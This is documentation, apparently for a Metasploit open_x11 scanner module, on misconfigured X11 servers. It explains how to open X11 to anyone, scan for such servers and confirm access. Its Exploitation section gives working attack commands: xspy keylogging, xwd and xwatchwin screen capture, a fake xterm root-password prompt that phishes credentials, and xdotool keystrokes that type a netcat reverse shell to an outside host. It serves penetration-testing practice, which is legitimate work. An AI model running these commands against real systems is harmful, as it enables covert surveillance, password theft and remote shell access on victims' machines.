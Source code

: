 ## Vulnerable Application

X11 (X Window System) is a graphical windowing system most common on unix/linux, although implementations may be found in windows
with software such as Hummingbird Exceed X Server.  The service can accept connections from any users when misconfigured
which is done with the command `xhost +`.

### Ubuntu 10.04

1. `sudo nano /etc/gdm/gdm.schemas`
2. Find:

    ```
    <schema>
     <key>security/DisallowTCP</key>
     <signature>b</signature>
     <default>true</default>
    </schema>
    ```
  - Change `true` to `false`

3. logout or reboot
4. Verification: ```sudo netstat -antp | grep 6000```

    ```
    tcp        0      0 0.0.0.0:6000            0.0.0.0:*               LISTEN      1806/X
    ```

5. Now, to verify you allow ANYONE to get on X11, type: `xhost +`

### Ubuntu 12.04, 14.04

1. `sudo nano /etc/lightdm/lightdm.conf`
2. Under the `[SeatDefaults]` area, add:

    ```
    xserver-allow-tcp=true
    allow-guest=true
    ```

3. logout or reboot
4. Verification: ```sudo netstat -antp | grep 6000```

    ```        	
    tcp        0      0 0.0.0.0:6000            0.0.0.0:*               LISTEN      1806/X
    ```

5. Now, to verify you allow ANYONE to get on X11, type: `xhost +`

### Ubuntu 16.04

  Use the Ubuntu 12.04 instructions, however change `SeatDefaults` to `Seat:*`

### Fedora 15

1. `vi /etc/gdm/custom.conf`
2. Under the `[security]` area, add:

    ```
    DisallowTCP=false
    ```

3. logout/reboot
4. Now, to verify you allow ANYONE to get on X11, type: `xhost +`

### Solaris 10

1. `svccfg -s svc:/application/x11/x11-server setprop options/tcp_listen = true`
2. `svc disable cde-login`
3. `svc enable cde-login`
4. `xhost +`

## Verification Steps

  1. Install and configure X11
  2. Start msfconsole
  3. Do: `use auxiliary/scanner/x11/open_x11`
  4. Do: `set rhosts [IPs]`
  5. Do: `run`

## Scenarios

  A run against Ubuntu 14.04 (192.168.2.75), Ubuntu 16.04 (192.168.2.26), and Solaris 10 (192.168.2.32)

  ```
    msf > use auxiliary/scanner/x11/open_x11 
    msf auxiliary(open_x11) > set rhosts 192.168.2.75 192.168.2.26
    rhosts => 192.168.2.75 192.168.2.26
    msf auxiliary(open_x11) > run
    
    [+] 192.168.2.75:6000     - 192.168.2.75 Open X Server (The X.Org Foundation)
    [*] Scanned 1 of 3 hosts (33% complete)
    [+] 192.168.2.26:6000     - 192.168.2.26 Open X Server (The X.Org Foundation)
    [*] Scanned 2 of 3 hosts (66% complete)
    [+] 192.168.2.32:6000     - 192.168.2.32 Open X Server (Sun Microsystems, Inc.)
    [*] Auxiliary module execution completed
  ```

## Confirming

The following are other industry tools which can also be used.

### [nmap](https://nmap.org/nsedoc/scripts/x11-access.html)

```
# nmap -p 6000 --script=x11-access 192.168.2.26,75

Starting Nmap 7.40 ( https://nmap.org ) at 2017-04-23 13:15 EDT
Nmap scan report for ubuntu-desktop-16 (192.168.2.26)
Host is up (0.0021s latency).
PORT     STATE SERVICE
6000/tcp open  X11
|_x11-access: X server access is granted
MAC Address: 00:0C:29:60:27:F9 (VMware)

Nmap scan report for ubuntu-desktop-14 (192.168.2.75)
Host is up (0.0021s latency).
PORT     STATE SERVICE
6000/tcp open  X11
|_x11-access: X server access is granted
MAC Address: 00:0C:29:0E:C4:6E (VMware)
```

### xdpyinfo

This is one of the standard linux tools to get info on an X display.

```
# xdpyinfo -display 192.168.2.75:0 | head -n 5

name of display:    192.168.2.75:0
version number:    11.0
vendor string:    The X.Org Foundation
vendor release number:    11803000
X.Org version: 1.18.3
```

## Exploitation

Exploiting this mis-configuration has several methods.  The target can have their display viewed, keystrokes logged, and potential keyboard typed.

### Keylogging

To keylog the remote host, we use a tool called [xspy](http://tools.kali.org/sniffingspoofing/xspy)

`xspy -display [ip]:0`

### Screen Monitoring

#### Entire Display

It is possible to monitor the entire display (all windows) and view the content.

 - Take a screenshot: `xwd -root -display [ip]:[display] -out xdump.xdump`
 - View screenshot: `display xdump.xdump` or `xwud -in xdump.xdump`

#### Specific Window

To monitor only a single window (a terminal for instance)

First, we need to determine which windows are available and what their processes are:

 - `xwininfo -tree -root -display [ip]:0`
 
Once you determine which window you want to monitor, you'll want to use the `windowID`.  Now use the application `xwatchwin`

 - `xwatchwin [ip]:0 -w [windowID]`

### Social Engineering

Obviously watching keystrokes is good, but we want to coax the user into providing their password.  We can do this by using xterm to display a login box to the user.

This was tested against Ubuntu 12.04, 14.04, 16.04 and Solaris 10.

1. start `xspy`
2. `xterm -T "Root Permission Required" -display [ip]:0 -e "echo -e -n 'root password: '; read passwd; echo 'Authentication Failure'; echo -e -n 'root password: '; read passwd"`
  - Notice it asks twice for the password incase of a mistyped initial password.  This can also be adjusted to just say password or the real user's username
  - The victim's typed text by the user will not be masked (`*`)

### Direct Exploitation

Use `exploits/unix/x11/x11_keyboard_exec`

### Typing Commands

Similar to the method `exploits/unix/x11/x11_keyboard_exec` uses, its possible to use `xdotool` to run commands on the remote system.

To install `xdotool` on kali simply run `apt-get install xdotool`

Now, you can directly interact by typing commands (which appear on the users screen), an example would be running xterm and launching netcat.

For this scenario we run a simple reverse netcat to 192.168.2.9:80

```
xdotool key alt+F2
xdotool key x t e r m
xdotool key KP_Enter
xdotool key n c space 1 9 2 period 1 6 8 period 2 period 9 space 8 0 space minus e space slash b i n slash b a s h KP_Enter
```